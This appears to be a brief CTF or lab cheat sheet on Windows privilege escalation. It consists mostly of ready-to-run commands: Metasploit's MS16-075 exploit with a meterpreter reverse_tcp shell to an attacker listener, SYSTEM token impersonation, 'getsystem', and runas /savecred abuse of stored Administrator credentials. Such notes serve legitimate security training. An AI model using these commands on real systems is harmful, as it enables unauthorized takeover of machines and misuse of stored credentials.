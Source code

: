 ```shell

use exploit/windows/local/ms16_075_reflection
or
use exploit/windows/local/ms16_075_reflection_juicy 


options

set LHOST 10.10.14.3

set LPORT 5555

set payload windows/x64/meterpreter/reverse_tcp

load incognito

list_tokens -u
#we have impersonate token

impersonate_token "NT AUTHORITY\SYSTEM"

shell
#we get shell as System
```

## getsystem

```shell
#in meterpreter shell
getsystem
#uses multiple techniques for privesc
#can be detected by antivirus
# try it when u have a low privileged foothold on a meterpreter session.

getsystem -h
```
![image](https://github.com/user-attachments/assets/5af03df0-c3aa-4cfa-9a38-e1837dd6425f)


## runas

```shell
cmdkey /list
#there are stored creds for Administrator

#we can use runas to get root flag
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Desktop\root.txt"
```
![image](https://github.com/user-attachments/assets/dcf817be-e1ba-4eee-843d-b9b1af13081d)
